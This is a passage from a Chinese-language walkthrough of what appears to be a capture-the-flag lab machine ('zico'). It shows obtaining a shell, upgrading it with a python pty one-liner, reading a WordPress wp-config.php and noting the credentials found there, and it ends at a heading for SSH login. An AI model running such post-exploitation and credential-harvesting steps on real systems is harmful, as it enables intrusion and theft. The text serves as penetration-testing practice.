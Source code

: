 ![image-20220316091348767](https://gitee.com/xxb667/img/raw/master/img/image-20220316091348767.png)

获取shell

```
shell
```

![image-20220316091549416](https://gitee.com/xxb667/img/raw/master/img/image-20220316091549416.png)

获取shell后，切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20220316091749697](https://gitee.com/xxb667/img/raw/master/img/image-20220316091749697.png)



## 4.2-1 返回到根目录



则输入下面的命令

```
cd /
```

![image-20220316094311219](https://gitee.com/xxb667/img/raw/master/img/image-20220316094311219.png)

切换到下面路径

```
cd /home/zico/wordpress
```

```
ls
```

![image-20220316094431238](https://gitee.com/xxb667/img/raw/master/img/image-20220316094431238.png)

打开wp-config.php文件

```
cat wp-config.php
```

得到了账户和密码

```
账户：zico
密码：sWfCsfJSPV9H3AmQzw8
```

![image-20220316094621499](https://gitee.com/xxb667/img/raw/master/img/image-20220316094621499.png)

## 4.3 ssh登录
